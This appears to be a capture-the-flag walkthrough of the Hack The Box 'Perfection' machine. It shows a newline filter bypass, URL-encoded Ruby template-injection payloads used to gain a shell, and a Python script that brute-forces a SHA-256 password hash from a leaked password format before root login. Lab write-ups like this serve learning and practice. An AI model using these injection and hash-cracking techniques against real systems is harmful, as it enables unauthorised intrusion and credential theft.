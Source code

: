 

# Foothold 

we see their is only ssh and the web. 

in the web we see the calculator for the Grade Calculator

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303175253.png)
after testing we see we might get some kind of os command injection

![image]()

looking into `WEBrick` a little bit it might be ruby or some kind but not sure. we try some filter bypass and found `%0a` will kinda break it and we are able to use more characters to get a working payload 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303175336.png)

to make a payload we find its a `SSTI` and use a payload for that.

after looking we found this payload 

```
<%= 7*7 %>
```

this one is just to test `SSTI`

but i dont work

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180142.png)

we might need to encode some stuff.

we encode the start and the end of the payload

after encoding

```
<%25= 7*7 %25>
```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Perfection/Screenshots/Pasted%20image%2020240303180410.png)

and we got 49 meaning it works. now we can use `system` to execute commands

we make a payoad to download and execute a bash script to get shell

![image]()


and we have shell


![image]()


# Privesc


after enumerating the box we a message from the mail

```
cat /var/mail/susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

ah so our password will be `susan_nasus<random number>`

inside our users home folder we see the folder `Migration` that as a file called `pupilpath_credentials.db`

after downloading it we see its the hashes for the users

![image]()

so now we have a hash of the user susan. we now get a script that will crack this hash since we know what the password will look like

script: 

```
import hashlib

def generate_password(firstname):
    firstname_lower = firstname.lower()
    firstname_backwards = firstname_lower[::-1]
    for i in range(1, 1000000001):
        password = f"{firstname_lower}_{firstname_backwards}_{i}"
        hashed_password = hashlib.sha256(password.encode()).hexdigest()
        yield password, hashed_password

def crack_hash(hash_to_crack, firstname):
    for password, hashed_password in generate_password(firstname):
        if hashed_password == hash_to_crack:
            return password
    return None

# Hash provided by the user
hash_to_crack = "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f"

# Firstname of the user
firstname = "Susan"

# Attempt to crack the hash
cracked_password = crack_hash(hash_to_crack, firstname)

if cracked_password:
    print(f"Hash cracked! Password is: {cracked_password}")
else:
    print("Unable to crack the hash.")

```

after a while we see the hash was cracked

![image]()


we now use that password and login as root

![image]()
